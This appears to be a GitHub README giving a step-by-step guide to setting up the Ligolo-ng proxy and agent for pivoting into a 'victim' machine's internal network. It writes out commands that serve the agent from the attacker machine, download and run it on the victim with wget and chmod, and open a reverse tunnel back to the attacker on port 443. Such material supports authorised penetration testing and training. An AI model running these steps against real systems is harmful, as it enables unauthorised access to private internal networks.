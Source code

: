 [![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=30&duration=4000&pause=1&color=FFFFFF&multiline=true&width=485&height=80&lines=%E2%94%8C%E2%94%80%E2%94%80(ThisizAmen%E3%89%BFKaniber)-%5B%2F%5D;%E2%94%94%E2%94%80%23+Ligolo+Proxy+Setup)](https://git.io/typing-svg)

---

## Overview

This guide provides step-by-step instructions to set up Ligolo Proxy and Ligolo Agent for establishing a reverse proxy tunnel between an attacker machine and a victim machine. This setup allows for accessing internal network resources through the tunnel.

### Prerequisites

- Linux-based system
- Root privileges (or equivalent)
- Ligolo Proxy and Ligolo Agent executables

---

## 1. Download Ligolo Proxy and Agent

Before setting up the tunnel, you need to download the necessary executables:

- **Ligolo Proxy**: A tool for setting up the reverse proxy on the attacker machine.
- **Ligolo Agent**: A tool that runs on the victim machine to connect back to the attacker.

### Proxy Download:
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```

### Agent Download:
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```

After downloading, unpack the `.tar.gz` files using:
```bash
tar -xzvf <filename>.tar.gz
```

---

## 2. Setup Ligolo Tunnel on the Attacker Machine

### Change the user from 'root' to your custom user (optional but recommended for security):
```bash
sudo ip tuntap add user <your_username> mode tun ligolo
```

### Delete any conflicting IP routes (if you're using VPN):
```bash
sudo ip route del 192.168.98.0/24 dev tun0
```

### Add the desired internal network range to the Ligolo tunnel:
```bash
sudo ip link set ligolo up
sudo ip route add 192.168.98.0/24 dev ligolo
```

### Start the Ligolo Proxy:
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```

---

## 3. Setup Ligolo Agent on the Victim Machine

### Download the Ligolo Agent from the Attacker Machine:

Ensure you have a Python HTTP server running on the attacker machine to serve the agent:
```bash
python3 -m http.server 8000
```

On the victim machine, download the agent:
```bash
wget http://<attacker_machine_ip>:8000/agent -P /opt/
```

### Make the Agent executable and run it:
```bash
chmod +x /opt/agent
/opt/agent -connect <attacker_machine_ip> -ignore-cert
```

---

## 4. Access the Internal Network (Attacker Machine)

Once the agent is running on the victim machine and connected back to the attacker, follow these steps to access the internal network:

1. Open the Ligolo menu:
```bash
session
```

2. Start the session:
```bash
start
```

---

## Conclusion

You have now successfully set up the Ligolo Proxy and Agent, allowing access to the internal network of the victim machine. You can now interact with the internal resources securely through the established tunnel.

---

### Tips & Troubleshooting

- If the connection is not working, ensure that both machines are on the same network or have reachable IPs.
- Check firewall rules if any traffic is being blocked.
- Ensure that the correct paths for executables are set in the commands.

---

## About the Author

Hi, I am **Amin Gurbanli**. If you have any questions or need further assistance, feel free to connect with me on [LinkedIn](https://www.linkedin.com/in/amin-gurbanli/).
